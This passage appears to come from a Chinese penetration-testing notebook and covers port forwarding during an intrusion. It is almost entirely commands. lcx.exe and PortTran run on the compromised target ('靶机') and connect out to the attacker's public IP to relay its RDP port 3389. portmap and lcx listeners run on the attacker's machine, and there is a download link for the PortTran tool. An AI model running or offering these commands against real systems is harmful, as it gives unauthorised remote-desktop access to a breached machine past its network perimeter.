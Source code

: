 	使用条件：服务器通外网，拥有自己的公网ip
	靶机：lcx.exe -slave 外网IP 9999 127.0.0.1 3389
	linux攻击机：./portmap -m 2 -p1 9999 -p2 33889
	windows攻击机：lcx -listen 9999 33889 把本机9999监听的信息转到33889
	PortTran
	https://github.com/k8gege/K8tools/raw/master/PortTran.rar
	攻击机执行
	>PortTranS20.exe 12345 389
![image](/assets/Pentest_Note/master/img/163.png)

	靶机执行
	>PortTranC20.exe 127.0.0.1 3389 192.168.0.102 12345
	建立连接后，攻击机连接本机389端口即可
![image](/assets/Pentest_Note/master/img/164.png)
